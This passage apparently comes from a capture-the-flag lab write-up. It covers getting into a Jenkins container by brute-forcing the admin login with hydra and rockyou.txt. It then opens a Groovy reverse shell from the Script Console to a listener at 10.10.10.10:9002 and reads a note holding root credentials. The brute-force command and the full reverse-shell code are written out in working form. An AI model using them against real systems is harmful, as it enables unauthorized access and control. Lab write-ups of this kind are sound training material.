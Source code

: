 ![](6.png)

It's jenkins login page.

Let's use `hydra` again to brute force the password as admin.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError" -t 30
```

![](7.png)

We got the password, let's login.

![](8.png)

To ge a shell with jenkins, we go to `manage jenkins` and select `Script Console`

This console can run `Groovy` so we'll use the following groovy reverse shell.

```groovy
String host="10.10.10.10";int port=9002;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](9.png)

We setup a listener and click run.

![](10.png)

Checking the `/opt` directory we find the following note.

```bash
cd /opt
ls -l
total 4
-rw-r--r-- 1 root root 204 Aug  3  2020 note.txt
ls -la
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:<REDACTED>
```
